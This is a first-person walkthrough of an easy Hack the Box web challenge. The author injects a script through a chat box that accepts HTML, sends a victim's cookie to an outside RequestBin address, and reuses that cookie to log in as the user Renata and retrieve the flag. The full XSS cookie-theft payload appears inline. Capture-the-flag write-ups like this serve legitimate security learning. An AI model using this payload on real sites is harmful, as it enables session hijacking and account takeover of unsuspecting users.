In this i'm going to be attempting the only hacks challenge which was posted for valentines day on hack the box.
It's diffculty is very easy.
Our task is to find and submit a flag.

We begin by getting our host address.



Now on entering this into a browser we are taken to this site.

Entering values and trying to log in didn't take me anywhere so i'm going to try to signup.


But when i enter this in it says user already exists.


I tried repeating the sign in with a profile picture( i hadn't used one ealier), and now the sign in works.
We are now taken to this site...


On going through the site i see a chat window for chatting with a user called Renata.


I will try to type some messages.



I tried tying some random words( wierd i know)..but as expected it didn't lead to anything. The responses are all sent in a same cycle.
Well...I was wrong about the responses being generated in a repeated cycle. There is some AI being used to generate the responses.

THe chat accepts html so if i try to send something like...



That was  < u >hi< u >

Now we will create a request bin and get the request by sending the address on the request bin site throught the chatbox we have on the only hacks site. 
We use < script > to embed our "script" which is executed when a user visits the page embedded.
< script >document.location="http://requestbin.whapi.cloud/1688xb21?c" + document.cookie< /script >
here we use the document.location and specify where to be redirected when user clicks...then on clicking the cookies of that user are taken and added to the end of that url(due to ?c and the +document.cookie).
On visiting the site RequestBin records a log of that. That log will have the site url therefore the end cookie data too.

As we can see a log is made... on close inspection towards the end of the url lies the cookie we need.


This cookie can be replac the cookie in our only hacks tab.
Here is the value we have to replace...


On replacing and reloading the page we get to see this...

We are now logged in as Renata. We notice another person in the chat.
On opening that we get the flag needed.
